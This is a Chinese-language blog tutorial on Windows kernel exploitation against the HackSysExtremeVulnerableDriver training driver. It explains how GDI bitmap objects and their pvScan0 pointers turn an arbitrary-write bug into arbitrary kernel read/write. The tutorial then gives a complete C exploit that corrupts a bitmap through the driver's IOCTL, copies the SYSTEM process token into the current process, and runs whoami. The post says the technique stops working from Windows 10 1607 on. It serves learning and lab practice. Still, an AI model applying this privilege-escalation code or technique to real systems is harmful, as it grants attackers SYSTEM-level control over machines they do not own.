









<small>转载请注明出处哦 :  )</small>

## 0x00 前言
还记得第二篇任意地址覆盖中我们通过任意地址写漏洞修改了 [HalDispatchTable+0x4] 来达到执行我们 shellcode 的目的吗？但是我们毕竟修改了 Hal 的分发表，一个最底层的分发表，虽然那段程序执行起来没有问题，但指不定什么时候就使系统崩溃了，这是一个隐患。虽然我当时也有这么想过，但直接用这个东西很少被调用把自己说服了 : )

直到有人问我假若我们有一个任意地址写漏洞，就像第二篇文章那样，那么我们有没有什么更稳定的方法呢？

在此先感谢一下 @wjllz 的帮助

## 0x01 bitmap 是什么
我们先看看官方文档



这一看就是个跟 gdi 有关的绘图的东西，这显然不是我们感兴趣的，但不急，首先我们看看 CreateBitmap 会创建一个什么样的结构。



(这张图不是我画的，不过这张图在网上传得挺广的，所有的图片应该是出自同一个人，只不过我不知道是谁，下面看起来明显是同一个画风的那张图应该也是这个人画的)

说白了其实就是创建了两个结构，一个叫 BASEOBJECT，每一个 GDI 对象都有的一个头部。另一个叫 SURFOBJ，保存了包括我们参数信息的实际结构。

我们先看看 BASEOBJECT



这个对象在这里其实没什么用，我们只要记住它的偏移就好了

```
x86 : 0x10
x64 : 0x18
```

再来看看 SURFOBJ



其它参数都不重要，我们看到 pvScan0

结合上面那张图，pvScan0 指向一块 Pixel Data 数据区，我们可以通过 GetBitmapBits 和 SetBitmapBits 来控制那块数据区。

GetbitmapBits:


SetbitmapBits:


## 0x02 bitmap 的作用
到目前为止，我们应该已经大致清楚了 CreateBitmap 所创建的内核对象大致是一个什么样的结构了，那么，这有什么用呢？我们所说的作用当然不是它本来与 gdi 相关的作用，而是对我们的漏洞利用有什么帮助呢？

上面说到，pvScan0 指向一块 Pixel Data 数据区，我们可以通过 GetBitmapBits 和 SetBitmapBits 来控制那块数据区。不过，注意到 SURFOBJ 是一个处于内核地址空间下的对象，pvScan0 所指向的 Pixel Data 数据区也是位于内核地址空间下的，也就是说，我们可以在用户模式下通过 GetBitmapBits 和 SetBitmapBits 来控制内核地址空间中的数据了，只要我们有办法控制 pvScan0 的值，这不就是一个任意地址读写的漏洞吗？

那么我们该怎么控制 pvScan0 的值呢？其实 pvScan0 和 CreateBitmap 的第五个参数是相对应的，我们看看第五个参数和 pvScan0 怎么说




这里根据我的调试结果，如果我们给 CreateBitmap 的第五个参数随便指定一个我们想要的地址的话，效果类似这样的代码

```
HBITMAP hManager = CreateBitmap(0x20, 0x20, 0x1, 0x8, (PDWORD32)WorkerpvScan0Address);
```

那么 hManager 会直接为 NULL,也就是说创建失败了。换句话说，我们没办法随意控制 pvScan0 的值，顶多只能让 pvScan0 指向一块有意义的区域。

所以我们其实是需要一个任意地址写漏洞来控制 pvScan0 的值的（控制 pvScan0 的值之后我们还能获得任意地址读权限）

总结一下，如果我们有一个任意地址写漏洞的话，我们就能通过 bitmap 来获得任意地址读写权限，这就是 bitmap 的作用

## 0x03 如何使用 bitmap
那么，假若我们有一个任意地址写漏洞的话，我们该往哪里写我们想要控制的区域的地址呢？换句话说，怎么获得 pvScan0 的地址？

首先，我们知道 fs 在用户模式下指向 teb，在内核模式下指向 pcr，虽然我们可以直接通过 NtCurrentTeb 来获得 teb 的基址。teb 中的 ProcessEnvironmentBlock 指向线程所在的进程 peb。peb 偏移 0x094 的地方（x86下）是一个指向 GDICELL 结构体数组的指针 GdiSharedHandleTableAddr

通过 CreateBitmap 返回的 handle 值我们可以得到该 bitmap 的 GDICELL 结构体的索引，计算方法为

```c
DWORD32 pKernelAddress = GdiSharedHandleTableAddr + ((DWORD32) handle & 0xffff) * (x86:0x10,x64:0x18);
```

没错，通过 GdiSharedHandleTableAddr 指针我们就能找到 pvScan0 的地址，但是在 windows 10 1607 及其以后的版本，GdiSharedHandleTableAddr 指针指向的区域变为了 ????，也就是一个未分配的区域，换句话说就是这个利用方法被打上了补丁，因为我们没法得到 pvScan0 的地址了。

回到原文，GDICELL 结构体的结构为
```c
/// 32bit size: 0x10
/// 64bit size: 0x18
typedef struct _GDI_CELL
{
    IntPtr pKernelAddress;
    UInt16 wProcessId;
    UInt16 wCount;
    UInt16 wUpper;
    UInt16 wType;
    IntPtr pUserAddress;
}
```

其第一个指针 pKernelAddress 指向了 BASEOBJECT 的第一个字节，也就是说 *(PDWORD32)pKernelAddress + (x86:0x10,x64:0x18) + (x86:0x20,x64:0x38) 正是 pvScan0 的地址

## 0x04 bitmap 任意地址写漏洞利用
到目前为止，其实 bitmap 的利用已经很清晰了

> 1. 调用 CreateBitmap 创建 bitmap 内核对象
> 2. 通过 teb 获得 pvScan0 的地址
> 3. 通过任意地址写漏洞改写 pvScan0 的值为我们想要读的地址
> 4. 调用 GetBitmapBits 来读取数据

接下来就以第二篇文章的漏洞来提权验证一下 bitmap 的使用

在开始之前，先看一下这张图



我们可以通过创建两个 bitmap，一个用来控制我们要读写的地址，一个用来实际对那块地址进行读写，这样子操作起来会舒服很多，写起代码来也更清晰简洁。

由于我们之后不在内核模式下执行我们的 shellcode，因此我们需要在用户模式下模拟这个过程（我们可以对任意地址进行读写）

总结一下我们应该要做的事

> 1. 创建两个 bitmap，分别为 hManager 和 hWorker
> 2. 通过任意地址写漏洞改写 hManager 的 pvScan0 的值为 hWorker 的 pvScan0 的地址
> 3. 结合 GetBitmapBits 和 SetBitmapBits，利用 hManager 和 hWorker 读取 system 的 token
> 4. 把 system 的 token 赋予我们的当前进程
> 5. 验证提权

这里补充一下两个小知识

第一个是 ntoskrnl.exe 中有个叫 PsInitialSystemProcess 的全局变量（指针），其指向 system 进程的 eprocess


第二个是内核在不同的环境下有不同的名字



到现在应该把每一个点都说清楚了，接下来贴出任意地址写漏洞的 bitmap 利用方法 （之前是改写 [HalDispatchTable+0x4] 来执行 shellcode）

```c
#include "stdafx.h"

#include <windows.h>
#include <Psapi.h>

TCHAR driverName[1024];

typedef struct _payload {
	PULONG_PTR what;
	PULONG_PTR where;
} Payload, *PPayload;

VOID readOOB(HBITMAP hManager, HBITMAP hWorker, DWORD32 whereWrite, LPVOID whatWrite, int len)
{
	SetBitmapBits(hManager, len, &whereWrite); // set 写的是 hWorker 的 pvScan0 的值
											   // 通过控制 hWorker 的 pvScan0 的值来决定对哪块地址进行读写
	GetBitmapBits(hWorker, len, whatWrite);
}

VOID writeOOB(HBITMAP hManager, HBITMAP hWorker, DWORD32 whereWrite, LPVOID whatWrite, int len)
{
	SetBitmapBits(hManager, len, &whereWrite);
	SetBitmapBits(hWorker, len, &whatWrite);
}

DWORD32 getpvScan0Address(HBITMAP handle) {
	printf("	handle value: 0x%p\n",(DWORD32) handle);

	DWORD32 tebAddr = (DWORD32)NtCurrentTeb();
	printf("	tebAddr: 0x%p\n", tebAddr);

	DWORD32 pebAddr = *(PDWORD32)((PUCHAR)tebAddr + 0x30);
	printf("	pebAddr: 0x%p\n", pebAddr);

	DWORD32 GdiSharedHandleTableAddr = *(PDWORD32)((PUCHAR)pebAddr + 0x94);
	printf("	GdiSharedHandleTableAddr: 0x%p\n", GdiSharedHandleTableAddr);

	// GdiSharedHandleTableAddr 是一个指向GDICELL结构体数组的指针
	// GDICELL 结构体 x86 0x10,x64 0x18
	DWORD32 pKernelAddress = GdiSharedHandleTableAddr + ((DWORD32) handle & 0xffff) * 0x10;
	printf("	pKernelAddress: 0x%p\n", pKernelAddress);

	DWORD32 surfaceObject = *(PDWORD32)pKernelAddress;
	printf("	surfaceObject address: 0x%p\n", surfaceObject);
	// BASEOBJECT 结构体 x86 0x10,x64 0x18
	// pvScan0 在 SURFOBJ 结构体中的偏移 x86 0x20,x64 0x38
	DWORD32 pvScan0Address = surfaceObject + 0x10 + 0x20;
	printf("	pvScan0 address: 0x%p\n", pvScan0Address);

	return pvScan0Address;
}

DWORD32 getKernelBase() {
	PVOID driversAddress[1024];
	DWORD cbNeeded;
	int cDrivers, i;
	int ntoskrnlKernelBase;

	// find ntoskrnl.exe kernel base
	if (EnumDeviceDrivers(driversAddress, sizeof(driversAddress), &cbNeeded) && cbNeeded < sizeof(driversAddress))
	{

		cDrivers = cbNeeded / sizeof(driversAddress[0]);

		for (i = 0; i < cDrivers; i++)
		{
			if (GetDeviceDriverBaseName(driversAddress[i], driverName, 1024))
			{
				char *lowerName = _strlwr(driverName);

				if (!strncmp(driverName, "nt", 2)) {

					ntoskrnlKernelBase = i;
					break;
				}
				else {
					if (i == (cDrivers - 1)) {
						printf("can't find driver name\n");
						exit(0);
					}
					continue;
				}
			}
			else {
				printf("get device driver name failed\n");
			}
		}
	}
	else
	{
		printf("Enumerate Device Drivers failed\n");
		return 0;
	}

	printf("driver name is: %s\n", driverName);
	return (DWORD32)driversAddress[ntoskrnlKernelBase];
}

DWORD32 getSystemEProcessAddr() {
	DWORD32 ntoskrnlKernelBase = getKernelBase();
	DWORD32 ntoskrnlUserBase = (DWORD32)LoadLibrary(driverName);
	if (ntoskrnlUserBase == NULL) {
		printf("load library failed!\n");
		return 0;
	}
	DWORD32 PsInitialSystemProcessUserSpaceAddr = (DWORD32)GetProcAddress((HMODULE)ntoskrnlUserBase, "PsInitialSystemProcess");
	DWORD32 PsInitialSystemProcessKernelSpaceAddr = ntoskrnlKernelBase + (PsInitialSystemProcessUserSpaceAddr - ntoskrnlUserBase);

	return PsInitialSystemProcessKernelSpaceAddr;
}


int main() {

	HBITMAP hManager = CreateBitmap(0x20, 0x20, 0x1, 0x8, NULL);
	if (hManager == NULL) {
		printf("create manager bitmap failed\n");
		return 0;
	}
	HBITMAP hWorker = CreateBitmap(0x20, 0x20, 0x1, 0x8, NULL);
	if (hWorker == NULL) {
		printf("create worker bitmap failed\n");
		return 0;
	}

	printf("Manager bitmap:\n");
	DWORD32 ManagerpvScan0Address = getpvScan0Address(hManager);
	printf("Worker bitmap:\n");
	DWORD32 WorkerpvScan0Address = getpvScan0Address(hWorker);

	PPayload payload = NULL;
	// malloc
	payload = (PPayload)HeapAlloc(GetProcessHeap(),
		HEAP_ZERO_MEMORY,
		sizeof(Payload));
	payload -> what = (PULONG_PTR)&WorkerpvScan0Address;
	payload -> where = (PULONG_PTR)ManagerpvScan0Address;
	DWORD BytesReturned = 0;
	HANDLE hDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, NULL, 0x3, 0, NULL);
	DeviceIoControl(hDevice, 0x0022200B, (LPVOID)payload, sizeof(Payload), NULL, 0, &BytesReturned, NULL);
	
	// 已经 overwrite 了，接下来就是利用 SetBitmapBits 和 GetBitmapBits 来读写

	DWORD32 systemEprocessAddr = 0;
	LPVOID lpSystemToken = NULL; // 获取 system 进程的 token
	readOOB(hManager, hWorker, getSystemEProcessAddr(), &systemEprocessAddr, sizeof(DWORD32));
	readOOB(hManager, hWorker, (systemEprocessAddr + 0x0f8), &lpSystemToken, sizeof(DWORD32));

	// _eprocess + 0x0f8 是 token
	// _eprocess + 0x0B8 是 ActiveProcessLinks.Flink
	// _eprocess + 0x0b4 是 processid
	// 获取当前进程的 _eprocess
	DWORD32 lpNextEPROCESS = 0;
	LPVOID lpCurrentPID = NULL;
	DWORD32 dwCurrentPID;
	LIST_ENTRY lpNextEntryAddreess = { 0 };
	DWORD32 currentProcessID = GetCurrentProcessId();	// 通过PID判断是否获取到当前进程的地址
	readOOB(hManager, hWorker, systemEprocessAddr + 0x0B8, &lpNextEntryAddreess, sizeof(LIST_ENTRY));

	do	// 根据PID是否找到当前进程 
	{
		// 获取下一个进程
		lpNextEPROCESS = (DWORD32)((PUCHAR)lpNextEntryAddreess.Flink - 0x0B8);
		// 获取PID
		readOOB(hManager, hWorker, lpNextEPROCESS + 0x0b4, &lpCurrentPID, sizeof(LPVOID));
		dwCurrentPID = LOWORD(lpCurrentPID);
		readOOB(hManager, hWorker, lpNextEPROCESS + 0x0B8, &lpNextEntryAddreess, sizeof(LIST_ENTRY));
	} while (dwCurrentPID != currentProcessID);
	
	DWORD32 currentTokenAddress = (DWORD32)lpNextEPROCESS + 0x0f8;
	writeOOB(hManager, hWorker, currentTokenAddress, lpSystemToken, sizeof(LPVOID));

	system("whoami\n");
	
}
```

## 0x05 结束语
上文中提到过，bitmap 的这种利用方法从 RS1 开始就失去作用了。然而，失去作用后又产生了 bitmap 的替代方法，接下来打算学习一下这个替代方法的递进过程（RS1 下有新的利用方法，RS2 下又失效了，RS2 下又可以用新的方法 ...）

最近有些比较重要的事情，RS1 的利用可能要过一段时间才进行了，等什么时候更新了就回来把这段话删掉，虽然也没人看 ：)
---

<p align='right'>2019.9.11</p>


